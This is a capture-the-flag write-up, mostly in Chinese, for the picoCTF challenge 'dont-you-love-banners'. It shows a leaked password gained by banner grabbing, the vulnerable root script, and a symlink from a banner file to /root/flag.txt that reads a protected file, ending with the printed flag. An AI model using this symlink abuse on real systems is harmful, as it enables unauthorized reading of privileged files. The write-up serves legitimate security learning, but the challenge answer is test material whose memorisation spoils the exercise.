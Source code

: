 
# dont-you-love-banners
[Challenge](https://play.picoctf.org/practice/challenge/437)

## Description

The server has been leaking some crucial information on [tethys.picoctf.net](http://tethys.picoctf.net/) 61966. Use the leaked information to get to the server.
To connect to the running application use nc [tethys.picoctf.net](http://tethys.picoctf.net/) 53050. From the above information abuse the machine and find the flag in the /root directory.

## Hints

1. Do you know about symlinks?
2. Maybe some small password cracking or guessing

## Solution

這題就比較有趣了，首先題目說第一個目標有資訊洩漏，先連上去看看。

```bash
┌──(kali㉿kali)-[~]
└─$ nc tethys.picoctf.net 61508
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

回了一組密碼給我，就沒有下文了，連連看第二個，結果就問我密碼，用了剛剛得到的那組後順利進到下一題。接下來兩題就是問了最top的資安conference是哪個跟第一個phreaking的人是誰，我都是上網找答案的，就可以順利連線上主機了，這邊先上過程：

```bash
┌──(kali㉿kali)-[~]
└─$ nc tethys.picoctf.net 63921
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEF CON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$
```

成功進去後的目錄底下有兩個檔案，分別是`banner`跟`text`，兩個內容如下：

```bash
player@challenge:~$ ls
banner  text
player@challenge:~$ cat banner  
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
keep digging
```

毫無幫助!!!
只好繼續挖掘了，翻找了一陣子算是找到flag（位置再`/root`底下，沒錯我忘記題目有講了）。但沒有權限開啟，該目錄底下還放了一支python檔案，查看後發現就是我們連線時觸發的程式。

```bash
player@challenge:/root$ ls
ls
flag.txt  script.py
player@challenge:/root$ cat flag.txt
cat flag.txt
cat: flag.txt: Permission denied
player@challenge:/root$ cat script.py
cat script.py

import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```

其實因為無權開啟所以我卡很久，一直在找提權的方式，然後也有因為解其他題的靈感跑來嘗試看看，但都沒用。後來看提示提到的symlinks，再加上python開頭會去讀取banner，才搞懂他只是要我建立捷徑而已。建立好後只要重新nc上去觸發那支python就可以看到flag了~~這邊真的卡相當久呢….

```bash
player@challenge:~$ ls -l
ls -l
total 4
lrwxrwxrwx 1 player player  8 Mar 20 04:49 banner -> flag.txt
-rw-r--r-- 1 root   root   13 Feb  7 17:25 text
player@challenge:~$ rm -r banner
rm -r banner
player@challenge:~$ ls
ls
text
player@challenge:~$ ln -s /root/flag.txt banner
ln -s /root/flag.txt banner
player@challenge:~$ ls -l
ls -l
total 4
lrwxrwxrwx 1 player player 14 Mar 20 04:52 banner -> /root/flag.txt
-rw-r--r-- 1 root   root   13 Feb  7 17:25 text
player@challenge:~$

┌──(kali㉿kali)-[~]
└─$ nc tethys.picoctf.net 63921
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_8126c9b0}
```